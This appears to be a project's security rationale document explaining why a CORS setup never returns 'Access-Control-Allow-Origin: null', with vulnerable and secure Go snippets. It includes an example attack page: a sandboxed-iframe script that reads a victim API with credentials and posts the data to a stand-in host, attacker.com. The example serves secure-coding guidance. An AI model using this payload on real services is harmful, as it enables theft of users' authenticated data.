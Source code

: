 # Security Configuration Rationale

## Overview

This document explains the reasoning behind each security configuration and requirement in our templates. Understanding the "why" behind security measures helps developers make informed decisions and maintain security standards as requirements evolve.

## CORS Security Rationale

### Why We Never Set Access-Control-Allow-Origin to 'null'

#### The Problem

Setting `Access-Control-Allow-Origin: null` for disallowed origins creates a security vulnerability that can be exploited by attackers.

#### Technical Explanation

1. **Browser Behavior**: Browsers send `Origin: null` in several legitimate scenarios:
   - File:// protocol requests
   - Sandboxed iframe requests
   - Redirected requests in some cases
   - Data URLs in certain contexts

2. **Attack Vector**: Attackers can craft requests that appear to have a 'null' origin:

   ```html
   <!-- Attacker's page -->
   <iframe src="data:text/html,<script>
     fetch('https://victim-api.com/sensitive-data', {
       credentials: 'include'
     }).then(r => r.json()).then(data => {
       // Exfiltrate data to attacker's server
       fetch('https://attacker.com/steal', {
         method: 'POST',
         body: JSON.stringify(data)
       });
     });
   </script>"></iframe>
   ```

3. **Bypass Mechanism**: If the API responds with `Access-Control-Allow-Origin: null`, the browser allows the request, bypassing CORS protection.

#### Secure Solution

```go
// ❌ Vulnerable
if !isAllowedOrigin(origin) {
    c.Header("Access-Control-Allow-Origin", "null")
}

// ✅ Secure
if isAllowedOrigin(origin) {
    c.Header("Access-Control-Allow-Origin", origin)
}
// For disallowed origins, omit the header entirely
```
